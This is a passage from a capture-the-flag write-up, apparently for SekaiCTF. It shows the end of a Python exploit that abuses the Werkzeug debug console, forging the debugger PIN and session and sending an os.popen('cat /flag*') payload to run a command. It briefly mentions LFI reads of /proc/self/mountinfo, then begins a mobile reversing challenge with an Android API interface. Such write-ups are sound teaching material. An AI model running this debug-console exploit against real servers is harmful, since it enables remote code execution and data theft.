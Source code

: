 ```python
    
def get_flag():
    cmd = '__import__("os").popen("cat /flag*").read()'
    r = session.get(URL + f"console?__debugger__=yes&cmd={quote(cmd)}&frm=0&s={secret}", cookies=debug_session, headers={"Host":"127.0.0.1"})
    m = re.findall(r'SEKAI{.*}', r.text)
    flag = m[0]
    print(f"[*] Your flag is: {flag}")
    
get_mac_address()
get_machine_id()
get_pin()
get_debug_secret()
get_debug_session()
get_flag()
```

![image](https://hackmd.io/_uploads/Skv6uUeFex.png)

### Bonus

After looking at some solutions, people used /proc/self/mountinfo or /proc/self/mounts to view files. Of course this method only stops at the LFI bug and if the flag file is not located at root then it's difficult

![image](https://hackmd.io/_uploads/S1AX4dgYgg.png)

## rev/Sekai Bank - Signature

This is a quite basic Mobile challenge. Reading the source I immediately see the flag endpoint

```java
public interface ApiService {
    @PUT("auth/pin/change")
    Call<ApiResponse<Void>> changePin(@Body PinRequest pinRequest);

    @GET("user/search/{username}")
    Call<ApiResponse<User>> findUserByUsername(@Path("username") String str);

    @GET("user/balance")
    Call<ApiResponse<BalanceResponse>> getBalance();

    @POST("flag")
    Call<String> getFlag(@Body FlagRequest flagRequest);

    @GET("user/profile")
    Call<ApiResponse<User>> getProfile();

    @GET("transactions/recent")
    Call<ApiResponse<List<Transaction>>> getRecentTransactions();

    @GET("transactions/{id}")
    Call<ApiResponse<Transaction>> getTransaction(@Path("id") String str);

    @GET("transactions")
    Call<ApiResponse<List<Transaction>>> getTransactions(@Query("page") int i, @Query("limit") int i2);

    @GET("user/profile")
    Call<ApiResponse<User>> getUserProfile();

    @GET("health")
    Call<ApiResponse<HealthResponse>> healthCheck();
```